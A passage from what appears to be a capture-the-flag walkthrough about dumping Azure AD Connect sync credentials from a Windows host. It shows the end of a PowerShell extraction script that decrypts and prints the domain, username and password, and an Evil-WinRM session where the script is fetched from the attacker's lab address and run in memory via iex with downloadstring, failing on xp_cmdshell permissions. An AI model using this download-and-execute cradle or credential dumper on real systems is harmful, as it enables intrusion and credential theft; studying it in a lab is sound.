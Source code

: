 ```
    Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
    return
}

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host "[*] Credentials incoming...`n"

Write-Host "Domain: $($domain.Domain)"
Write-Host "Username: $($username.Username)"
Write-Host "Password: $($password.Password)"

```

Now I’ll run it just like I ran the first one. It fails at the `xp_cmdshell`:

```
*Evil-WinRM* PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentialsv2.ps1')
AD Connect Sync Credential Extract v2 (@_xpn_)
        [ Updated to support new cryptokey storage method ]

[*] Querying ADSync localdb (mms_server_configuration)
[*] Querying ADSync localdb (mms_management_agent)
[*] Using xp_cmdshell to run some Powershell as the service user
Exception calling "ExecuteReader" with "0" argument(s): "User does not have permission to perform this action.
You do not have permission to run the RECONFIGURE statement.
The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
You do not have permission to run the RECONFIGURE statement.
The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'."
At line:46 char:1
+ $reader = $cmd.ExecuteReader()
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : SqlException
Exception calling "Read" with "0" argument(s): "Invalid attempt to call Read when reader is closed."
At line:50 char:8
+ while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false)  ...
+        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : InvalidOperationException
[!] Error using xp_cmdshell to launch our decryption powershell

```
